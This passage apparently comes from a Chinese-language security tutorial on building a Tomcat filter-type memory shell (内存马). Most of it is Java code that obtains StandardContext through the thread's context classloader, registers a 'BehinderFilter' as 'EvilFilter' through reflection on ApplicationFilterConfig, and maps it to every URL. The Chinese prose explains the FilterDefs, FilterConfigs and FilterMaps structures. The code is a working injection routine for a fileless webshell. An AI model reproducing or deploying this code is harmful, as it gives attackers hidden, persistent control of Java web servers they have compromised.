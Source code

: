 ```plain
    filterConfigs.put("EvilFilter", filterConfig);

    //FilterMap
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName("EvilFilter");
    filterMap.addURLPattern("/*");
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    context.addFilterMap(filterMap);
%>
```

**FilterDefs**：存放 FilterDef 的数组，**FilterDef** 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息  
**FilterConfigs**：存放 filterConfig 的数组，在 **FilterConfig** 中主要存放 FilterDef 和 Filter 对象等信息  
**FilterMaps**：存放 FilterMap 的数组，在**FilterMap**中主要存放了 FilterName 和对应的 URLPattern  
按照同样的逻辑，我们编写一个非 jsp 型的内存马的方式就是，找 StandardContext->创建一个 filterdef->利用反射找 filterconfig，利用之前的 filterdef 创建相应对象并加到 standardcontext 里面->创建 filtermap 写上对应的 urlpattern 并放到 context 里面。

#### 内存马实现

编写内存马我们最一开始的出发点就是从获取 StandardContext 开始的，在网上大多数关于 StandardContext 在 filter 内存马当中的获取方式都是通过线程 (ContextClassLoader) 来获取，其具体情况可以看**bitterz 师傅**写的文章[https://xz.aliyun.com/t/9914](https://xz.aliyun.com/t/9914) 其原因是当我们编写非 jsp 型内存马时，我们已经失去了 request 对象只能使用其他手段来获取。获取手段如下：

```plain
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
 StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

结合之前的 jsp 型的内存马，经过简单的替换我们就将 filter 内存马的主体部分初步完成了，如下所示。这一部分事实上是关于内存马注入的 (动态注册 filter)，还剩下内存马的主体部分。

```plain
//StandardContext
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();

//FilterDef
Filter filter = new BehinderFilter();
FilterDef filterDef = new FilterDef();
filterDef.setFilter(filter);
filterDef.setFilterName("EvilFilter");
filterDef.setFilterClass(filter.getClass().getName());
context.addFilterDef(filterDef);

//FilterConfig
Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
field1.setAccessible(true);
Map filterConfigs = (Map)field1.get(context);
filterConfigs.put("EvilFilter", filterConfig);

//FilterMap
FilterMap filterMap = new FilterMap();
filterMap.setFilterName("EvilFilter");
filterMap.addURLPattern("/*");
filterMap.setDispatcher(DispatcherType.REQUEST.name());
context.addFilterMap(filterMap);
```
